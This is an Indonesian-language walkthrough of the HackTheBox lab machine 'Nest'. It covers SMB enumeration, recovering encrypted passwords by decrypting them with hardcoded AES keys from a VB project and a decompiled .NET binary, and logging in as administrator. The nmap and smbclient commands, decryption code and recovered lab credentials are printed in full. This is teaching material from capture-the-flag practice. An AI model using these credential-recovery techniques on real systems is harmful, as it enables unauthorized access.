









# Nest (Windows)



HackTheBox machine Nest dengan operating system Windows. Sedikit disclaimer box ini tidak "Easy" sesuai dengan deskripsinya. Penulis merasa box ini memiliki difficulty setara atau sedikit lebih dari "Medium"

### Enumeration

Mari kita nmap dengan syntax biasa, nmap -sV -sC -A 10.10.10.178

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-01 08:14 EDT
Nmap scan report for nest.htb (10.10.10.178)
Host is up (0.27s latency).
Not shown: 999 filtered ports
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?
 
Host script results:
|_clock-skew: 2m25s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-01T12:17:25
|_  start_date: 2020-04-01T04:15:20
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.76 seconds
```

Oh god, hanya port 445 yang terbuka. Sepertinya kita akan bergulat dengan SMB untuk mendapatkan akses ke internal servernya.

```
smbclient -L //10.10.10.178
```



Ada beberapa share yang menarik yaitu Data, Secure$ dan Users

```
mount -t cifs //10.10.10.178 ./mnt/smb
```



### User

Sudah dapat credentials untuk access menggunakan smbclient, TempUser:welcome2019

```
umount ./mnt/smb
```

Pada share Data di /IT/Configs/NotepadPlusPlus ditemukan clue bahwa notepad pernah membuka beberapa file, terdapat di bagian history NotepadPlusPlus nya



Dari sini kita bisa melihat bahwa ternyata di share Secure$/IT ada directory bernama Carl, tadinya kita tidak memili permission untuk list directory didalam Secure$/IT, nanti kita akan coba apakah bisa langsung tembak directorynya saja. Dari sini juga terlihat bahwa terdapat user bernama C.Smith, karena home directory user kita sekarang adalah /Users/TempUser

Kita juga mendapat sebuah hash password dari C.Smith dari /IT/Configs/Ru Scanner/RU_config.xml

```

<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
1
2
3
4
5
6
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

Nampaknya password bukan base encryption, mari kita simpan dulu saja

Berpindah ke folder /IT/Carl kita bisa menemukan sebuah folder tempat ia menyimpan project VB nya, karena malas emumerasi menggunakan smbclient, saya mendownload keseluruhan dari foldernya

```
recurse on
prompt off
mget "VB Projects"
```

Terdapat file Utils.vb

```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
 
    Public Shared Function GetLogFilePath() As String
        Return IO.Path.Combine(Environment.CurrentDirectory, "Log.txt")
    End Function
 
 
 
 
    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function
 
    Public Shared Function EncryptString(PlainString As String) As String
        If String.IsNullOrEmpty(PlainString) Then
            Return String.Empty
        Else
            Return Encrypt(PlainString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function
 
    Public Shared Function Encrypt(ByVal plainText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
 
        Dim initVectorBytes As Byte() = Encoding.ASCII.GetBytes(initVector)
        Dim saltValueBytes As Byte() = Encoding.ASCII.GetBytes(saltValue)
        Dim plainTextBytes As Byte() = Encoding.ASCII.GetBytes(plainText)
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
        Dim keyBytes As Byte() = password.GetBytes(CInt(keySize / 8))
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
        Dim encryptor As ICryptoTransform = symmetricKey.CreateEncryptor(keyBytes, initVectorBytes)
        Using memoryStream As New IO.MemoryStream()
            Using cryptoStream As New CryptoStream(memoryStream, _
                                            encryptor, _
                                            CryptoStreamMode.Write)
                cryptoStream.Write(plainTextBytes, 0, plainTextBytes.Length)
                cryptoStream.FlushFinalBlock()
                Dim cipherTextBytes As Byte() = memoryStream.ToArray()
                memoryStream.Close()
                cryptoStream.Close()
                Return Convert.ToBase64String(cipherTextBytes)
            End Using
        End Using
    End Function
 
    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
 
        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)
 
        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
 
        Dim cipherTextBytes As Byte()
        cipherTextBytes = Convert.FromBase64String(cipherText)
 
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
 
        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))
 
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
 
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
 
        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)
 
        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)
 
        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)
 
        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)
 
        memoryStream.Close()
        cryptoStream.Close()
 
        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)
 
        Return plainText
    End Function
 
 
 
 
 
 
End Class
```

Sekilas dilihat ini mirip seperti module python, berisi function didalam class yang tinggal dipanggil untuk mendecrypt sesuatu, kemungkinan besar password C.Smith tadi, maka saya mencoba menggambil sepenggal code tersebut dan memasukkannya ke online compiler.

Pak penulis , kenapa ga pakai Visual Basic saja? OH KARENA DOWNLOAD NYA 16GB

Ok next, jika kita mencari online compiler untuk Visual Basic .NET terdapat beberapa website yang bisa digunakan, seperti onlinegdb, jdoodle, dan dotnetfiddle

For some reason, dari ketiga itu yang bisa saya gunakan hanya dotnetfiddle padahal menggunakan script yang sama yang sama rancang sendiri, ini memakan waktu yang lama karena penulis tidak familiar dengan VB shenanegans, hanya menebak2 dan mencoba debug.

```
Imports System
Imports System.Text
Imports System.Security.Cryptography
 
Public Class Test
    Public Shared Sub Main()
        System.Console.WriteLine(Decrypt("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=", "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256))
    End Sub
	
	Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
 
        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)
 
        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
 
        Dim cipherTextBytes As Byte()
        cipherTextBytes = Convert.FromBase64String(cipherText)
 
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
 
        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))
 
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
 
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
 
        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)
 
        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)
 
        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)
 
        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)
 
        memoryStream.Close()
        cryptoStream.Close()
 
        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)
 
        Return plainText
    End Function
End Class
```

Script yang penulis gunakan seperti diatas



Password user C.Smith adalah xRxRxPANCAK3SxRxRx

### Root

Didalam share Users/C.Smith terdapat directory bernama HQK Reporting/HQK_config_backup.xml

```
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

Dan ada HqkLdap.exe, serta sebuah file kosong
Dari sini penulis sempat stuck dan diberikan nudge bahwa coba lakukan nmap scan ulang lebih “teliti”

Maka penulis melakukan nmap lagi dengan nmap -p- -Pn 10.10.10.178

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-01 07:23 EDT
Nmap scan report for nest.htb (10.10.10.178)
Host is up (0.92s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
4386/tcp open  unknown
 
Nmap done: 1 IP address (1 host up) scanned in 3005.14 seconds
```

Ah benar saja ada port 4386 yang terbuka, TCP, tapi service unknown, mari kita coba telnet saja



Tidak ada banyak yg bisa dilakukan, nampaknya kita memerlukan password DEBUG tersebut
Passwordnya terletak pada file “Debug Mode Password.txt” namun saat dibuka filenya kosong, ternyata file tersebut merupaka sebuah ADS (Alternate Data Stream) ada cara membukanya yang hanya bisa dilakukan di windows(?) cmiiw, kalau di get ke local machine penulis yang saat itu adalah kali akan hilang data ADS nya.



Password debug adalah WBQ201953D8w



Ada password yang di hash lagi untuk administrator, penulis mengambil HqkLdap.exe untuk kemudian di decompile menggunakan JetBrains DotPeek

```
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;
 
namespace HqkLdap
{
  public class CR
  {
    private const string K = "667912";
    private const string I = "1L1SA61493DRV53Z";
    private const string SA = "1313Rf99";
 
    public static string DS(string EncryptedString)
    {
      return string.IsNullOrEmpty(EncryptedString) ? string.Empty : CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
    }
 
    public static string ES(string PlainString)
    {
      return string.IsNullOrEmpty(PlainString) ? string.Empty : CR.RE(PlainString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
    }
 
    private static string RE(
      string plainText,
      string passPhrase,
      string saltValue,
      int passwordIterations,
      string initVector,
      int keySize)
    {
      byte[] bytes1 = Encoding.ASCII.GetBytes(initVector);
      byte[] bytes2 = Encoding.ASCII.GetBytes(saltValue);
      byte[] bytes3 = Encoding.ASCII.GetBytes(plainText);
      byte[] bytes4 = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations).GetBytes(checked ((int) Math.Round(unchecked ((double) keySize / 8.0))));
      AesCryptoServiceProvider cryptoServiceProvider = new AesCryptoServiceProvider();
      cryptoServiceProvider.Mode = CipherMode.CBC;
      ICryptoTransform encryptor = cryptoServiceProvider.CreateEncryptor(bytes4, bytes1);
      using (MemoryStream memoryStream = new MemoryStream())
      {
        using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, encryptor, CryptoStreamMode.Write))
        {
          cryptoStream.Write(bytes3, 0, bytes3.Length);
          cryptoStream.FlushFinalBlock();
          byte[] array = memoryStream.ToArray();
          memoryStream.Close();
          cryptoStream.Close();
          return Convert.ToBase64String(array);
        }
      }
    }
 
    private static string RD(
      string cipherText,
      string passPhrase,
      string saltValue,
      int passwordIterations,
      string initVector,
      int keySize)
    {
      byte[] bytes1 = Encoding.ASCII.GetBytes(initVector);
      byte[] bytes2 = Encoding.ASCII.GetBytes(saltValue);
      byte[] buffer = Convert.FromBase64String(cipherText);
      byte[] bytes3 = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations).GetBytes(checked ((int) Math.Round(unchecked ((double) keySize / 8.0))));
      AesCryptoServiceProvider cryptoServiceProvider = new AesCryptoServiceProvider();
      cryptoServiceProvider.Mode = CipherMode.CBC;
      ICryptoTransform decryptor = cryptoServiceProvider.CreateDecryptor(bytes3, bytes1);
      MemoryStream memoryStream = new MemoryStream(buffer);
      CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, decryptor, CryptoStreamMode.Read);
      byte[] numArray = new byte[checked (buffer.Length + 1)];
      int count = cryptoStream.Read(numArray, 0, numArray.Length);
      memoryStream.Close();
      cryptoStream.Close();
      return Encoding.ASCII.GetString(numArray, 0, count);
    }
  }
}
```

Ditemukan script yang mirip dengan Utils.vb di bagian C.Smith tadi, maka cara kerjanya kurang lebih sama, bedanya language yang digunakan adalah C#



Password admin XtH4nkS4Pl4y1nGX

```
smbclient //10.10.10.178/C$ -U Administrator
```

# Rooted !